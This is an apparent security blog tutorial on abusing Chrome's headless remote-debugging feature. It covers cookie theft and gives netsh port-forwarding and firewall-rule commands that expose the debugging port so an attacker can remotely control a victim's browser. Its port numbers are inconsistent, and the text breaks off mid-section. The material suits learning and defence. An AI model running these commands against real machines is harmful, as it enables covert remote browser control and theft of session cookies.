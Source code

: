 ### Headless mode

Chrome supports running headless in the background without the user noticing that it is running. Examples here are given for PowerShell, but feel free to adjust to whatever shell/OS you are using:

* To run Chrome headless without a visible UI, specify the **–headless** option, as follows:

    ```Start-Process "Chrome" "https://www.google.com" --headless``` 
    
    This starts Chrome without the UI. To ensure a smooth start, specify **--no-first-run**. 
    
* By running ```Get-Process```, you can observe the newly created process as well. 

* To terminate all Chrome instances, simply run:

    ```Get-Process chrome | Stop-Process```

    This can be useful when learning more about this API and experimenting with it. 

## Basics of the Chrome remote debugging feature

To start Chrome with remote debugging enabled run:

```Start-Process "Chrome" "https://www.google.com --headless --remote-debugging-port=9222" ```

*If you do not specify --headless and there is already an instance of Chrome running, then Chrome will open the new window in the existing browser and not enable the debugging port. So, either terminate all Chrome instances (using the preceding statement) or launch Chrome headless. We will discuss differences in more detail later.*

Now you can already navigate to ```localhost:9222``` and see the debugging UI.

![Chrome Remote Debug](/blog/images/2020/chrome-remote-debug.PNG)
At this point you can perform the **"Cookie Crimes attack"** and invoke the JSON API's and the Websocket to steal cookies, but let's experiment more with the UI.

### Tunneling traffic to the attacker

The debugging port is only available locally now, but malware might make that remotely accessible. In order to do that, the adversary can perform a port forward. This will expose the port remotely over the network.

In Windows, this can be done by an Administrator using the ```netsh interface portproxy``` command. The following command shows how this is performed:

```netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=48333 connectaddress=127.0.0.1 connectport=9222``` 

Temote connections to this port will not be allowed because the firewall blocks them (we forwarded to port 48333). We have to add a new firewall rule to allow port 48333. So, let's allow that port through the firewall. 

There are multiple ways to do this on Windows (we focus on Windows now, but should also work on macOS and Linux):

1. Use netsh to add a new firewall rule:

    ```netsh advfirewall firewall add rule name="Open Port 48333" dir=in action=allow protocol=TCP localport=48333```
2. On modern Windows machines, this can also be done via PowerShell commands:

    ``` New-NetFirewallRule -Name ChromeRemote -DisplayName "Open Port 48333" -Direction Inbound -Protocol tcp -LocalPort 48333 -Action Allow -Enabled True     ``` 

## Automating and remote controlling browsers as adversarial technique 

Now, Mallory can connect from her attack machine to Alice's workstation on port 43888 and start remote controlling Chrome. The following screenshot shows what the initial connection might look like: 
```
